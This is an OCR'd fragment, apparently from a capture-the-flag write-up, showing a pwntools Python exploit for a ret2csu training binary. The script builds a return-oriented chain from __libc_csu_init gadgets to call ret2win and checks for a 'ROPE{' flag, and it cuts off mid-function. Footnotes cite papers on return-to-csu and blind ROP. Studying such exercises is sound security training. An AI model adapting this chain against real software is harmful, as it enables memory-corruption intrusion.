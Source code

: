 ```python
    target = None

    try:
        if local:
            global elf

            elf = ELF(FILE)
            context.binary = elf

            target = (
                gdb.debug(
                    [elf.path] + (argv or []), gdbscript=gdbscript, aslr=aslr, env=envp
                )
                if debug
                else process([elf.path] + (argv or []), env=envp)
            )
        else:
            target = remote(HOST, PORT)
        yield target
    finally:
        if target:
            target.close()


def construct_payload():
    padding_to_ret = b"".ljust(0x28, b"A")

    _init = 0x600398
    __libc_csu_init = elf.symbols["__libc_csu_init"]

    generic_gadget_1 = __libc_csu_init + 90
    generic_gadget_2 = __libc_csu_init + 64
    pop_rdi_ret = __libc_csu_init + 99

    cleanup_regs = [b"".ljust(0x8, b"A") * 6]

    return flat(
        padding_to_ret,
        generic_gadget_1,
        0x0,  # rbx
        0x1,  # rbp
        _init,  # r12 —▸ _init
        b"".ljust(0x8, b"A"),  # r13
        0xCAFEBABECAFEBABE,  # r14 —▸ rsi
        0xD00DF00DD00DF00D,  # r15 —▸ rdx
        generic_gadget_2,
        b"".ljust(0x8, b"A"),  # add rsp, 0x8
        *cleanup_regs,  # for generic_gadget_1
        pop_rdi_ret,
        0xDEADBEEFDEADBEEF,
        elf.symbols["ret2win"],
    )


def attack(target):
    try:
        payload = construct_payload()

        target.sendafter(b"> ", payload)

        response = target.recvall(timeout=3)

        if b"ROPE{" in response:
```

[^1]: Marco-gisbert, Hector and Ismael Ripoll. "return-to-csu: a new method to bypass 64-bit Linux ASLR." (2018).
[^2]: A. Bittau, A. Belay, A. Mashtizadeh, D. Mazières and D. Boneh, "Hacking Blind," 2014 IEEE Symposium on Security and Privacy, Berkeley, CA, USA, 2014, pp. 227-242, doi: 10.1109/SP.2014.22.